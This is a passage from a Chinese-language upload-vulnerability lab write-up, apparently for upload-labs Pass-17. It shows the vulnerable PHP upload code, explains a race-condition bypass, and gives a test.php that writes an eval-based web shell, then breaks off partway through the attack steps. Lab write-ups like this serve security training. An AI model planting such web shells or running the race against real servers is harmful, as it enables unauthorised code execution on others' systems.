 尝试利用文件包含漏洞对其进行解析：

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1758012490467-7600b673-8a6d-49b1-852b-9a88ca96dbbc.png)

> 其实这里试了好几次都失败了，报500 Internal Server Error的错误，一度以为是权限或者`include`的路径被限制等问题，但是最后是通过换不同位置修改成功的，暂时还没搞懂是什么原因。
>

# Pass-17
查看这题源码，发现有段关键逻辑是尝试将文件从临时目录移动到目标目录，如果文件类型合法，文件会被重命名并移动到指定的目标目录；如果文件类型不合法，原文件会被删除，并返回错误信息 。看起来符合条件竞争上传绕过。

```php
$is_upload = false;
$msg = null;

if(isset($_POST['submit'])){
  $ext_arr = array('jpg','png','gif');
  $file_name = $_FILES['upload_file']['name'];
  $temp_file = $_FILES['upload_file']['tmp_name'];
  $file_ext = substr($file_name,strrpos($file_name,".")+1);
  $upload_file = UPLOAD_PATH . '/' . $file_name;

  if(move_uploaded_file($temp_file, $upload_file)){
    if(in_array($file_ext,$ext_arr)){
      $img_path = UPLOAD_PATH . '/'. rand(10, 99).date("YmdHis").".".$file_ext;
      rename($upload_file, $img_path);
      $is_upload = true;
    }else{
      $msg = "只允许上传.jpg|.png|.gif类型文件！";
      unlink($upload_file);
    }
  }else{
    $msg = '上传出错！';
  }
}
```

条件竞争上传绕过核心就是通过多线程发包导致并发，<font style="color:rgb(51, 51, 51);">导致服务器处理数据变慢，因此在文件上传成功后和删除文件之间存在一个短暂的时间差（因为需要执行检查文件和删除文件的操作），可以利用这个时间差完成竞争条件的上传漏洞攻击。</font>

<font style="color:rgb(51, 51, 51);">先准备一个</font>`<font style="color:rgb(51, 51, 51);">test.php</font>`<font style="color:rgb(51, 51, 51);">，内容为生成一个新的webshell脚本</font>`<font style="color:rgb(51, 51, 51);">1.php</font>`<font style="color:rgb(51, 51, 51);">：</font>

```php
<?php fputs(fopen("1.php", "w"),'<?php @eval($_POST["HackYou"]); ?>'); ?>
```

理一下思路：

+ 先上传`test.php`，抓包
+ 上传一个符合要求的图片类型，查看图片上传路径
+ 访问`test.php`的URL（当然是没有的，毕竟还没传），抓包
